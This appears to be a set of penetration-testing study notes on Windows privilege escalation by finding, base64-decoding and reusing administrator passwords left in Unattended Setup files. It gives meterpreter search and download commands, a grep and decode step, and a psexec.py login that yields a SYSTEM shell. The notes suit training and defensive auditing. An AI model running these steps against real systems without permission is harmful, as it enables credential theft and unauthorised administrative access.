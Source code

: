 # Windows Privilege Escalation: Passwords In Config Files

## Contents
- [Intro](#intro)
  - [Windows Configuration Files](#windows-configuration-files)
  - [Unattended Windows Setup](#unattended-windows-setup)
- [Practical: Find, Decode, Use](#practical-find-decode-use)
  - [Search & Download](#search--download)
  - [cat, grep, decode](#cat-grep-decode)
  - [Exploit](#exploit)

## Intro

### Windows Configuration Files
- Windows can automate a variety of repetitive tasks, such as the mass rollout or installation of Windows on many systems.
- This is typically done through the use of the Unattended Windows Setup utility, which is used to automate the mass installation/deployment of Windows on various systems.
- This tool utilizes configuration files that contain specific configurations and user account credentials, specifically the Administrator account's password.
- If the Unattended Windows Setup configuration files are left on the target system after installation, they can reveal user account credentials that can be used by attackers to authenticate with a Windows target legitimately.
  - The sysadmin needs to go to each individual machine and delete the configuration files.
  - If not, the administrator password could be exposed if it's included in the config file.
 
### Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system confirmation information:
  - `C:\Windows\Panther\Unattend.xml`
  - `C:\Windows\Panther\Autounattend.xml`
- As a security precaution, the passwords stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Practical: Find, Decode, Use

### Search & Download
> The assumption here is that you have a compromised Windows target, but the account you appropriated is unpriviledged. 

- You could just poke around the target machine like a normal user (which is NOT a privileged account AT ALL) to find the config file.
- Or you could search... For example, using the search module in meterpreter:
```
> search
  # by itself this will give you usage syntax

> search -f Unattend.xml
> search -f Autounattend.xml
> cd [/path/to/the/file.xml]
> download unattend.xml
```

### cat, grep, decode
```
cat unattend.xml | grep Password
```
- This should provide you with a result similar to:
```
<AutoLogon>
  <Password>
    <Value>QWRtaW5AMTIz</Value>
    <PlainText>false</PlainText>
  </Password>
  <Enabled>true</Enabled>
  <Username>administrator</Username>
</AutoLogon>
```
- If the PlainText field is "false," then you have a Base64 encoded password you need to decode.
- Use the `base64` tool to (`-d`) decode it: 
```
base64 -d password.txt > plaintextpwd.txt
# or
base64 -d password.txt
```

### Exploit
- Test out the password you just decoded with the psexec.py Python script:
```
psexec.py Administrator@[target ip]
```
- It'll prompt for password. Enter it. You should get a command shell session (`whoami: nt authority\system`)


